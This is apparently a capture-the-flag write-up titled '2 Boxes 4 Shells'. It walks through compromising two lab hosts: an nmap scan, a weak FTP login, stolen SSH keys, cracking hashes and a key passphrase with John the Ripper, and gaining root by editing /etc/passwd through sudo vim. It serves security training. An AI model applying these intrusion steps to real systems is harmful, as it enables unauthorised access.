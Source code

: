 # 2 Boxes 4 Shells
Conduct an nmap scan of 10.8.14.0/24 to find the two boxes ip address\
Box 1 = 10.8.14.13\
Box 2 = 10.8.14.71

## Box 1 User
Conduct an nmap scan of box 1 to see open ports\
Box 1\
21/ftp\
22/ssh\
8000/http

Visit the webpage and notice the different directories open\
"Liam Only!" contains a pdf file that has a vulnerability report\
"Team Effort" contains a list of usernames associated with the team

The vulnerability report shows that ftp login password is easily crackable or is the same as the username\
`ftp 10.8.14.13`\
`Username: lsmith`\
`Password: lsmith`

Move all of the keys from box 1 to your user box\
Change permissions to 600 for all files\
`chmod lsmith* 600`\
`chmod njones* 600`

SSH into box 1:\
`ssh lsmith@10.8.14.13 -i lsmith_rsa`

List directory and cat the token file for box 1 user token

## Box 1 Root
List the root directory and notice that `/root/` is owned by lsmith\
Cd into /root/\
`cd /root/`\
There are two files, the token and a python script\
The token is owned by root so you cannot cat it, but login.py looks interesting\
Cat login.py and see that there are hardcoded username and passwords\
copy and paste those hashes into txt files on the user box\
run `sudo john un.txt/pw.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256` (only one file at a time)\
the hashes will be cracked relatively quick\
go back to the bisonator box and run `su root`\
Password: bison2674\
cat the token file

## Box 2 User
When scanning box 2 from the user box, notice that 22/ssh is filtered\
Run `nc -nvz 10.8.14.71 22` and notice that it's open\
On the bisonator box, cd into `~/ftp/`\
Use njones' key to ssh into .71\
It requires a passphrase\
So use ssh2john.py to crack the passphrase\
`sudo find / -type f -iname 'ssh2john.py'`\
`python /path/to/ssh2john.py njones_rsa > njones.hash`\
`john njones.hash --wordlist=/usr/share/wordlists/rockyou.txt`\
Passphrase: skittles

SSH into box 2
`ssh njones@10.8.14.71 -i njones_rsa`\
Enter passphrase\
Cat token

## Box 2 Root
Do `sudo -l` to see what the user has sudo rights too\
Vim is the only thing listed\
`sudo vim /etc/passwd`\
(password is skittles)\
Change njones to look like this:\
njones:x:0:0:root and leave the rest of the line the same\
su to njones and you should have root privs
